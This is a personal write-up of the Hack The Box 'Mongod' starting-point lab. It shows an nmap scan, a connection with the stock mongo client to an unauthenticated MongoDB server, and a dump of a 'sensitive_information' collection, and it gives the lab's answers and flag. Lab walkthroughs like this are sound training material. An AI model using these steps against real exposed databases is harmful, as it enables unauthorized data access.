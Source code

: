 ```yaml
---
title: "[HTB] Mongod"
author: "Wook Lee"
date: "2024-07-10"
tags: ["Hack The Box"]
---
```


it's been quite a while since I tackled any challenges on Hack The Box. My original plan was to strengthen my fundamentals on TryHackMe and then come back to Hack The Box. But now I'm thinking, why not do both at the same time? I can learn by diving in and trying things out as I go.

<div style="text-align: center"><img src="./just_do_it.gif"></div>

---

#### How many TCP ports are open on the machine?

```
2
```

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-l3lgefdeyz]─[~]
└──╼ [★]$ sudo nmap -sC -sV 10.129.228.30 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 23:00 CDT
Nmap scan report for 10.129.228.30
Host is up (0.0087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
27017/tcp open  mongodb MongoDB 3.6.8 3.6.8
```

<br>

#### Which service is running on port 27017 of the remote host?

```
MongoDB 3.6.8
```

`27017/tcp open  mongodb MongoDB 3.6.8 3.6.8`

<br>

#### What type of database is MongoDB? (Choose: SQL or NoSQL)

```
NoSQL
```

MongoDB is a NoSQL database designed for scalability, flexibility, and ease of development. MongoDB stores data in flexible, JSON-like documents, meaning fields can vary from document to document and data structure can be changed over time. This differs from traditional relational databases that use tables and rows to store data.

<br>

#### What is the command name for the Mongo shell that is installed with the mongodb-clients package?

```
mongo
```

<br>

#### What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

```
show dbs
```

In order to connect to the remote MongoDB server we need to install the `mongodb` utility by running the following command:
`curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz`

then extract the contents of the tar archive file using the `tar` utility
`tar xvf mongodb-linux-x86_64-3.4.7.tgz`

Then navigate to the `bin` folder to execute the mongo binary and connect to the MongoDB server
`./mongo mongodb://10.129.228.30:27017`

We are connected to the mongoDB server.

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-l3lgefdeyz]─[~/Downloads/mongodb-linux-x86_64-3.4.7/bin]
└──╼ [★]$ ./mongo mongodb://10.129.228.30:27017
MongoDB shell version v3.4.7
connecting to: mongodb://10.129.228.30:27017
MongoDB server version: 3.6.8
WARNING: shell and server versions do not match
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
Server has startup warnings:
2024-07-11T03:57:47.294+0000 I STORAGE  [initandlisten]
2024-07-11T03:57:47.294+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2024-07-11T03:57:47.294+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2024-07-11T03:57:49.369+0000 I CONTROL  [initandlisten]
2024-07-11T03:57:49.369+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2024-07-11T03:57:49.369+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2024-07-11T03:57:49.369+0000 I CONTROL  [initandlisten]
>
```

<br>

the `help` command shows `show dbs` command lists all the databases present on the server.

```shell
> help
	db.help()                    help on db methods
	db.mycoll.help()             help on collection methods
	sh.help()                    sharding helpers
	rs.help()                    replica set helpers
	help admin                   administrative help
	help connect                 connecting to a db help
	help keys                    key shortcuts
	help misc                    misc things to know
	help mr                      mapreduce

	show dbs                     show database names
```

<br>

#### What is the command used for listing out the collections in a database? (No need to include a trailing ;)

```
show collections
```

<br>

#### What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

```
db.flag.find().pretty()
```

<br>

`help` command
![alt text](image-1.png#center)

<br>

`db.mycoll.help()` command
![alt text](image-2.png#center)

<br>

`db.mycoll.find().help()` command
![alt text](image-3.png#center)

<br>

#### submit root flag

```
1b6e6fb359e7c40241b6d431427ba6ea
```

<br>

`show dbs` -> `use sensitive_information` -> `show collections` -> `db.flag.find()`

```shell
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find()
{ "_id" : ObjectId("630e3dbcb82540ebbd1748c5"), "flag" : "1b6e6fb359e7c40241b6d431427ba6ea" }
>
```

<br>

![alt text](image-4.png#center)
